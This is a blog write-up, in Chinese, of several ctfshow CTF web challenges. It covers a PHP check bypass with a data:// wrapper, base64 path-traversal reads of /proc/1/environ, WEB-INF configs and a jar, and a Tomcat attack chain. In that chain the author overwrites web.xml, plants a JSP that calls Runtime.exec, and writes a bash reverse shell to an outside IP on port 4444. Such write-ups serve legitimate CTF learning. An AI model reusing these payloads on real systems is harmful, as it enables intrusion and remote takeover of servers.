









+++
title = "ctfshow摆烂杯"
slug = "ctfshow-slacking-cup"
description = "刷"
date = "2025-01-10T16:33:17"
lastmod = "2025-01-10T16:33:17"
image = ""
license = ""
categories = ["ctfshow"]
tags = ["php", "Tomcat"]
+++

## web签到

这是CTF？搞我不会的数学是吧

```
4 3 23**(1/3)
```

## 一行代码

```php
<?php


echo !(!(include "flag.php")||(!error_reporting(0))||stripos($_GET['filename'],'.')||($_GET['id']!=0)||(strlen($_GET['content'])<=7)||(!eregi("ctfsho".substr($_GET['content'],0,1),"ctfshow"))||substr($_GET['content'],0,1)=='w'||(file_get_contents($_GET['filename'],'r') !== "welcome2ctfshow"))?$flag:str_repeat(highlight_file(__FILE__), 0);
```

我太懒了，所以让人机整理一下

```php
<?php

// 包含 flag.php 文件
include "flag.php";

// 检查满足的条件
$show_flag = !(
    // 如果以下任一条件为真，则不显示 flag
    !error_reporting(0) || // 错误报告未关闭
    stripos($_GET['filename'], '.') || // filename 中包含 '.' 
    ($_GET['id'] != 0) || // id 不为 0
    (strlen($_GET['content']) <= 7) || // content 长度小于等于 7
    !eregi("ctfsho" . substr($_GET['content'], 0, 1), "ctfshow") || // content 首字符不匹配
    (substr($_GET['content'], 0, 1) == 'w') || // content 首字符为 'w'
    (file_get_contents($_GET['filename'], 'r') !== "welcome2ctfshow") // filename 内容不匹配
);

// 根据条件输出 flag 或源码
echo $show_flag ? $flag : str_repeat(highlight_file(__FILE__), 0);
```

这里面的条件由于前面有个取反，所以要全部相反，最后的条件也就是

- filename中不包含`.`
- content长度大于等于7
- id为0
- content首字符为w
- filename内容固定

```
?filename=data://text/plain,welcome2ctfshow&content=Waaaaaaa
```

## 黑客网站

一个重复的字符串组合

```
tyro s4qw s3mm bubg jqje 46nc v35j aqjg eb3n qiuf 23ij oj4z wasx ohyd onion
```

后面搜到`onion`后缀文件

```
tyros4qws3mmbubgjqje46ncv35jaqjgeb3nqiuf23ijoj4zwasxohyd.onion
```

还要下载一下浏览器才可以访问这个网址，然后等网络配置好了就好了，其实这就是一种隐藏的技术，不过比赛结束就关了

## 登陆不了

一直注册登录不上，然后发现验证码始终不变，验证码的地方存在任意文件读取，base形式的



别忘了目录穿越，我就是忘了，然后一直在这里试这个东西

```http
GET /v/c?r=Li4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vcHJvYy8xL2Vudmlyb24= HTTP/1.1
Host: d094a3e9-35a7-43fb-af04-3f5044627829.challenge.ctf.show
Cookie: ctfshow=3DD14ED47B8F3147A4753626FBDAC299
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="131", "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Priority: u=0, i
Connection: close


```

拿到flag

## 登陆不了_Revenge

还是可以读取环境变量，但是这个姿势是我在金秋十月之后查资料知道的，我不知道当时有没有，不过做题就是为了学习，可不能就做题，还是看看代码吧，先读取`web.xml`

```
../../../WEB-INF/web.xml
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app version="3.0" 
	xmlns="http://java.sun.com/xml/ns/javaee" 
	xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" 
	xsi:schemaLocation="http://java.sun.com/xml/ns/javaee 
	http://java.sun.com/xml/ns/javaee/web-app_3_0.xsd">
  <display-name></display-name>
    <filter>
        <filter-name>routerFilter</filter-name>
        <filter-class>com.ctfshow.filter.impl.RouterFilterImpl</filter-class>
    </filter>
    <filter-mapping>
        <filter-name>routerFilter</filter-name>
        <url-pattern>/404.html</url-pattern>
        <url-pattern>/*</url-pattern>
        <dispatcher>REQUEST</dispatcher>
    </filter-mapping>
    <error-page>
        <error-code>404</error-code>
        <location>/404.html</location>
    </error-page>
    <error-page>
        <error-code>500</error-code>
        <location>/404.html</location>
    </error-page>
    <session-config>
        <cookie-config>
            <name>ctfshow</name>
            <http-only>true</http-only>
        </cookie-config>
        <tracking-mode>COOKIE</tracking-mode>
    </session-config>
    <error-page>
        <error-code>400</error-code>
        <location>/404.html</location>
    </error-page>
</web-app>
```

提示里面还说`pom.xml`

```
../../../WEB-INF/pom.xml
```

```xml
<project xmlns="http://maven.apache.org/POM/4.0.0" 
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 
   http://maven.apache.org/maven-v4_0_0.xsd">
   <modelVersion>4.0.0</modelVersion>
   <groupId>com.ctfshow</groupId>
   <artifactId>FlagShop</artifactId>
   <packaging>jar</packaging>
   <version>1.0-SNAPSHOT</version>
   <name>FlagShop</name>
   <url>http://maven.apache.org</url>
 
   <dependencies>

 
      <dependency>
         <groupId>ctfshow</groupId>
         <artifactId>tiny-framework</artifactId>
         <scope>system</scope>
         <version>1.1</version>
         <systemPath>${basedir}\lib\tiny-framework-1.0.1.jar</systemPath>
      </dependency>
   </dependencies>
 
</project>
```

直接读取jar包

```
../../../WEB-INF/lib/tiny-framework-1.0.1.jar
```

读取之后要进行jar包的修复



先保存`jar`包下来，也就是在这里我知道了，上一篇文章我为啥要删除

```
0D 0A 0D 0A
```

因为这个是在返回包里面多截取的，并不属于文件，然后再修复





但是一直搞不好，后面问了一些师傅，P爹告诉说，直接010新建十六进制文件，然后`ctrl+shift+v`最后把补包补好即可，如图



然后成功反编译了，现在我们就审计代码就好了，一进来就看到了这个

```java
/*RouterConfig.class*/
package com.ctfshow.config;

import java.io.BufferedInputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.InputStream;
import java.util.Properties;

/* loaded from: tiny-framework-1.0.1.jar:com/ctfshow/config/RouterConfig.class */
public class RouterConfig {
    private static Properties controllerProp;
    private static Properties methodProp;
    private static final String CONTROLLER = "/../config/controller.properties";
    private static final String METHOD = "/../config/method.properties";

    public static String getController(String key) {
        String path = RouterConfig.class.getResource("/").getPath();
        if (controllerProp == null || controllerProp.isEmpty()) {
            controllerProp = new Properties();
            try {
                InputStream InputStream = new BufferedInputStream(new FileInputStream(new File(String.valueOf(path) + CONTROLLER)));
                controllerProp.load(InputStream);
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
        String value = controllerProp.getProperty(key);
        return value;
    }

    public static String getMethod(String key) {
        String path = RouterConfig.class.getResource("/").getPath();
        if (methodProp == null || methodProp.isEmpty()) {
            methodProp = new Properties();
            try {
                InputStream InputStream = new BufferedInputStream(new FileInputStream(new File(String.valueOf(path) + METHOD)));
                methodProp.load(InputStream);
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
        String value = methodProp.getProperty(key);
        return value;
    }
}
```

得到了路由配置文件的路径，进行继续的读取

```
../../../WEB-INF/config/controller.properties
../../../WEB-INF/config/method.properties
```

得到这个

```
s=com.ctfshow.controller.Index
errorController=com.ctfshow.controller.ErrorPage
index=com.ctfshow.controller.Index
v=com.ctfshow.controller.Validate
```

看了一下jar里面没有路由文件，我们只能继续读取，终于是找到路径了

```
../../../WEB-INF/classes/com/ctfshow/controller/Index.class
```

然后反编译这个对于进行了多次的我已经很简单了，所以就不写过程了，看到处理用户注册的路由，直接就写了文件，只不过把路径给限制了



由于`Tomcat`的热加载机制，我们可以覆盖`web.xml`来加载我们的木马



```
username=web.xml&password=<?xml version="1.0" encoding="UTF-8"?>
<web-app version="3.0" 
        xmlns="http://java.sun.com/xml/ns/javaee" 
        xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" 
        xsi:schemaLocation="http://java.sun.com/xml/ns/javaee 
        http://java.sun.com/xml/ns/javaee/web-app_3_0.xsd">
  <display-name></display-name>
    <filter>
        <filter-name>routerFilter</filter-name>
        <filter-class>com.ctfshow.filter.impl.RouterFilterImpl</filter-class>
    </filter>
    <filter-mapping>
        <filter-name>routerFilter</filter-name>
        <url-pattern>/404.html</url-pattern>
        <url-pattern>/s/*</url-pattern>
        <dispatcher>REQUEST</dispatcher>
    </filter-mapping>
<servlet>  
<servlet-name>ctfshow</servlet-name>  
<jsp-file>/WEB-INF/1.jsp</jsp-file>  
</servlet>  
<servlet-mapping>  
<servlet-name>ctfshow</servlet-name>  
<url-pattern>/ctfshow</url-pattern>  
</servlet-mapping>  </web-app>
```

一看就成功了，因为一直在转圈，同样的，我们写`jsp`

```
username=1.jsp&password=<%25 
String path=application.getRealPath(request.getRequestURI());
String dir=new java.io.File(path).getParent();
out.println(dir);

%25>
```

然后访问我们在`xml`里面写的`ctfshow`，然后就可以得到路径了



我们写个sh来弹shell，就很方便

```
username=1.sh&password=bash -i >& /dev/tcp/156.238.233.9/4444 0>&1
```

然后再用`runtime`直接触发即可

```
username=1.jsp&password=<%25 java.lang.Runtime.getRuntime().exec("sh /home/apache-tomcat-8.5.45/webapps/ROOT/WEB-INF/1.sh");%25>
```

结果没成功好像，看来sh文件估计是有问题，没有把特殊字符编码，上次国城杯吃了亏了，这里直接改

```
username=1.sh&password=bash -i %3E%26 /dev/tcp/156.238.233.9/4444 0%3E%261
```

然后访问`/ctfshow`进行触发



